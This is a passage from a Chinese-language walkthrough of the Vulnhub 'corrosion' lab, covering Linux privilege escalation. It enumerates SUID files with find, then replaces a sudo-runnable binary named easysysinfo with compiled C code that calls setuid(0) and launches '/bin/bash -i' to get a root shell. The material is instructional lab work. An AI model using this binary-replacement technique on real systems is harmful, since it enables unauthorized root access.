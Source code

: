 

使用`find`查找`SUID`权限

```shell
find / -perm -u=s -type f 2>/dev/null
```

发现和上面一样，有一个`sudo`比较特殊，找到一个可以以`root`执行的文件，且当前用户不被允许以`root`运行`/bin/bash`

![](D:\stu\vulnhub\corrosion靶场\pic-1\26.jpg)



发现没有写权限，但是有`s`也就是特权，想起在之前解压文件时，提供了一个名称一样的文件

![](D:\stu\vulnhub\corrosion靶场\pic-1\27.jpg)



查看之前的文件，可以看到是进行一些设置，`0`表示特权，比如`root`就是`0`，整体就是设置提权的，然后执行下面的命令，如果在其中添加一个调动`shell`的是否可行

![](D:\stu\vulnhub\corrosion靶场\pic-1\28.jpg)



修改代码

```c
#include<unistd.h>
#include<stdlib.h>	//c语言中的标准头文件
void main()
{ setuid(0);
  setgid(0);
  system("/bin/bash -i");

  system("cat /etc/hosts");

  system("/usr/bin/uname -a");

}

```

然后在靶机上创建一个`c`文件，并把上面内容复制其中，发现`vim`不可用，可以使用其他的，如`vi、nano`等

![](D:\stu\vulnhub\corrosion靶场\pic-1\29.jpg)



然后使用`gcc`命令进行编译，注意，编译出的文件要与可执行特权的文件名一致`easysysinfo`

而且可以看到这里的`s`特权已经没有了

![](D:\stu\vulnhub\corrosion靶场\pic-1\30.jpg)



但是使用`sudo -l`却表示，这里还是可以的

![](D:\stu\vulnhub\corrosion靶场\pic-1\31.jpg)
